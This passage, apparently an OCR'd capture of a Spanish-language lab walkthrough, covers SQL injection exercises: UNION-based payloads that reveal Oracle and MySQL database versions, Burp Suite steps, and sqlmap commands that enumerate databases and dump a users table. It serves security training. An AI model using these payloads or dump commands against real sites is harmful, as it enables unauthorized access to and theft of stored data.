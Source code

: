 ``'+UNION+SELECT+'abc','def'+FROM+dual--

3. Use la siguiente carga útil para mostrar la versión de la base de datos: 

``'+UNION+SELECT+BANNER,+NULL+FROM+v$version--

## SQLi attack, Consulta del tipo y la versión de la base de datos en MySQL y Microsoft

#### Solución Rápida:

Este laboratorio es similar a los anteriores. La única diferencia es que es obligatorio usar Burp, ya que parece imposible inyectar el carácter '#' desde el navegador. La carga útil final es la siguiente:  

``'+UNION+SELECT+@@version,+NULL#

#### Solución Larga:

1. Use Burp Suite para interceptar y modificar la solicitud que establece el filtro de categoría de producto. 

2. Determine el número de columnas que devuelve la consulta y cuáles contienen datos de texto. Verifique que la consulta devuelva dos columnas, ambas con texto, utilizando una carga útil como la siguiente en el parámetro ``category``: 

``'+UNION+SELECT+'abc','def'# 

3. Use la siguiente carga útil para mostrar la versión de la base de datos: 

``'+UNION+SELECT+@@version,+NULL#


## SQLi attack, Listado del contenido de bases de datos en bases de datos que non-Oracle

#### Solución Rápida:

Obtener bases de datos:

``sqlmap -u "<url_destino>" --dbs  

Listar tablas en la base de datos 

``sqlmap -u "<url_destino>" -D public --tables 

Volcar el contenido de una tabla de la base de datos

``sqlmap -u "<url_destino>" -D public -T <nombre_tabla_usuarios> --dump

#### Solución Larga:

1. Use Burp Suite para interceptar y modificar la solicitud que establece el filtro de categoría de producto. 

2. Determine el número de columnas que devuelve la consulta y cuáles contienen datos de texto. Verifique que la consulta devuelva dos columnas, ambas con texto, utilizando una carga útil como la siguiente en el parámetro ``category``: 

